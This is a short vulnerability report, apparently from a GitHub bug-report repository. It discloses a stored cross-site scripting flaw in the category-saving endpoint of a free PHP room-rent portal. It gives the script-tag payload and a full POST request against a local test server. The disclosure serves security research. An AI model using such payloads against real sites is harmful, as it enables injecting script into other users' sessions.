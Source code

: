 # room-rent-portal-site - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15301/room-rent-portal-site-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /rrps/classes/Master.php?f=save_category

Vulnerability location: /rrps/classes/Master.php?f=save_category, vehicle_name

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST http://192.168.2.106/rrps/classes/Master.php?f=save_category HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------39324278941716868132909560787
Content-Length: 416
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/rrps/admin/?page=categories
Cookie: PHPSESSID=h4hpbcj74nsiroalrkj8o2251s

-----------------------------39324278941716868132909560787
Content-Disposition: form-data; name="id"

2
-----------------------------39324278941716868132909560787
Content-Disposition: form-data; name="name"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------39324278941716868132909560787
Content-Disposition: form-data; name="status"

1
-----------------------------39324278941716868132909560787--

```

![](https://github.com/mikeccltt/bug_report_CVE/blob/main/room-rent-portal-site/xss.gif?raw=true)
